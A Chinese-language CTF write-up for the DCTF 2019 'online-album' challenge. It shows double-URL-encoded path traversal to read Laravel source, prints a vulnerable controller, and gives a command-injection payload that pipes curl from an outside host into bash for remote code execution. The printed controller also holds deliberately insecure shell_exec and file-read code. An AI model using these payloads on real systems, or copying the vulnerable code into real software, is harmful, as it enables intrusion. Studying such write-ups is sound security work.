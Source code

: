 # online-album

觀察可以發現`/download/`處理邏輯怪怪的

例如: `/download/index.php`會噴Source code

fuzzing一波，可以發現`https://online-album.dctfq19.def.camp/download/%252e%252e%252fcomposer.json`

能往上跳，讀其他php source code

讀route `/download/%252e%252e%252froutes/web.php`:

```php
<?php

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function () {
    return view('welcome');
});

Auth::routes();

Route::get('/home', 'HomeController@index')->name('home');
Route::get('/album/{path}', 'HomeController@album')->name('album')->where('path', '.*');
Route::get('/download/{path}', 'HomeController@download')->name('download')->where('path', '.*');
Route::post('/auto-logout', 'HomeController@auto_logout')->name('auto-logout');
```

接著讀HomeController `/download/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/var/www/html/app/Http/Controllers/HomeController.php`:

```php
<?php

namespace App\Http\Controllers;

use Illuminate\Http\Request;
use Auth;

class HomeController extends Controller
{
    /**
     * Create a new controller instance.
     *
     * @return void
     */
    public function __construct()
    {
        $this->middleware('auth');
    }

    /**
     * Show the application dashboard.
     *
     * @return \Illuminate\Contracts\Support\Renderable
     */
    public function index()
    {
        return view('home');
    }

    public function album(Request $request, $path)
    {
        // dd($path);
        // dd(getcwd());

        $path = urldecode($path);

        if ($path[0] == "/") {
            $path = substr($str, 1);
        }
        
        $files = scandir($path);
        
        foreach ($files as $key => $file) {
            if ($file[0] == ".") {
                unset($files[$key]);
            }
        }
        // $files = scandir("/var/www/html/");
        $html = "";
        foreach ($files as $photo) {
            $info = pathinfo($photo);
            if(array_key_exists("extension", $info)){
                if ($info["extension"] == "jpeg") {
                $html.="<a target='_blank' href='/download/".$path."/".$photo."'><img width='700' src='/".$path."/".$photo."'></a><hr>";
                }
            }
            
        }
        return view('home', [
            "files" => $files,
            "html" => $html,
        ]);     

    }

    public function download(Request $request, $path)
    {
        // dd($path);
        // dd(getcwd());

        $path = urldecode($path);

        if ($path[0] == "/") {
            $path = substr($str, 1);
        }

        if (strpos($path, "../..")) {
            dd("Ilegal path found!");
        }

        $file = file_get_contents($path);
        return $file;

    }

    public function auto_logout(Request $request)
    {
        Auth::logout();
        //delete file after logout
        $cmd = 'rm "'.storage_path().'/framework/sessions/'.escapeshellarg($request->logut_token).'"';
        shell_exec($cmd);
    }


}
```

可以看到`auto_logout`一臉Command Injection樣

這邊雖然用`escapeshellarg`，但因為他包在雙引號`"`中，所以還是可以Command Injection:

只要`logout_token`塞`";curl kaibro.tw|bash;"`就能RCE

`DCTF{1196df3f624df7a099d4364e96df21a4c7283071177237bdd36e0981da68bd29}`

![](https://github.com/w181496/CTF/blob/master/dctf2019-qual/onlinealbum/flag.png)

